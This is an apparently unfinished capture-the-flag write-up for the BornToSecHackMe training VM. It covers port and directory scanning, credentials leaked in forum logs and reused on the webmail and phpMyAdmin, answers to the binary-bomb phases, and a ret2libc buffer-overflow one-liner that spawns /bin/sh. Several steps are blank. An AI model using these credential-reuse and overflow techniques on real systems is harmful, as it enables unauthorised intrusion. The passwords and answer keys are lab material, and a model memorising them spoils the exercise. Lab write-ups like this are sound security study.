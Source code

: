 # Writeup 1

## Step 1 - Nmap

Scan ports with :
```bash
sudo nmap -sn localhost/24
```
Thats gives us the ip of the vm :
```bash
Nmap scan report for BornToSecHackMe (192.168.1.21)
Host is up (0.0083s latency).
Not shown: 994 closed ports
PORT    STATE         SERVICE
21/tcp  open|filtered ftp
22/tcp  open|filtered ssh
80/tcp  open|filtered http
143/tcp open|filtered imap
443/tcp open|filtered https
993/tcp open|filtered imaps
MAC Address: 08:00:27:C8:08:7C (Oracle VirtualBox virtual NIC)
```

---

## Step 2 - Dirb

We then checked the https://192.168.1.21

We used dirb to test all urls and we found out some interesting ones:
```bash
https://192.168.1.21/forum
https://192.168.1.21/phpmyadmin
https://192.168.1.21/webmail
```

---

## Step 3 - Forum

We checked the logs in the "Probleme login ?" section in the https://192.168.1.21/forum  
Saw user **lmezard** login with password :
```bash
!q\]Ej?*5K5cy*AJ
```
And we logged in on the forum with these logs

---

## Step 4 - Webmail
We got the user mail on the profile and logged in on https://192.168.1.21/webmail with that email and the same password.  
In the mailbox there is a mail with a root user and a password:
```bash
Fg-'kKXBj87E:aJ$
```

---

## Step 5 - Phpmyadmin

Then we logged on https://192.168.1.21/phpmyadmin with root as user and the password as above.  
And we accessed to the data base : in which we clicked on "forum_db" and "mlf2_userdata" to change user_type for user "lmezard" to "2" as it is set for admin user.

-> SQL query, and /templates_c

---

## Step 6 - User www-data


---

## Step 7 - FTP


---

## Step 8 - Laurie / The Bomb

```
PHASE 1: Public speaking is very easy.
PHASE 2: 1 2 6 24 120 720
PHASE 3: 1 b 214
PHASE 4: 9
PHASE 5: opekmq / opekma
PHASE 6: 4 2 6 3 1 5

Publicspeakingisveryeasy.126241207201b2149opekmq426315
```

This password doesn't work and we need to change `n-1` with `n-2`, so the password is `Publicspeakingisveryeasy.126241207201b2149opekmq426135`

---

## Step 9 - Thor / Turtle




---

## Step 10 - Zaz / Exploit-me


https://wiremask.eu/tools/buffer-overflow-pattern-generator/?

```
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
(gdb) find 0xb7e6b060, +9999999, "/bin/sh"
0xb7f8cc58

```

```
zaz@BornToSecHackMe:~$ python -c 'print "A"*140 + "\x60\xb0\xe6\xb7" + "AAAA" + "\x58\xcc\xf8\xb7"' > test
zaz@BornToSecHackMe:~$ ./exploit_me $(cat test)
```
